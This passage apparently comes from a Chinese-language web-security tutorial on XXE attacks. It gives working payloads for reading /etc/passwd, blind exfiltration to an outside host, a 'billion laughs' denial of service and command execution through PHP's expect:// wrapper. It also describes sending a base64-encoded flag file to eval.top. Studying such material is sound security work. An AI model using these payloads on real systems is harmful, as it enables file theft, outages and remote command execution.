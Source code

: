 组合的意思起来就是：服务器先访问 eval.top，然后将本地文件 flag.txt 进行 base64 加密后传回 eval.top

#### 文件包含

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

无回显时

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]>
<foo>&blind;</foo>
```

#### DOS

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "dos">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

通过套娃引用提升机器内部内存占用

> 如果换成 url 是不是威力加倍？

#### RCE

php 的 expect 扩展可以直接执行系统命令，但这个拓展并不是默认就有的

```xml
<!DOCTYPE root[<!ENTITY cmd SYSTEM "expect://id">]>
<dir>
	<file>&cmd;</file>
</dir>
```

回显就会是这样的

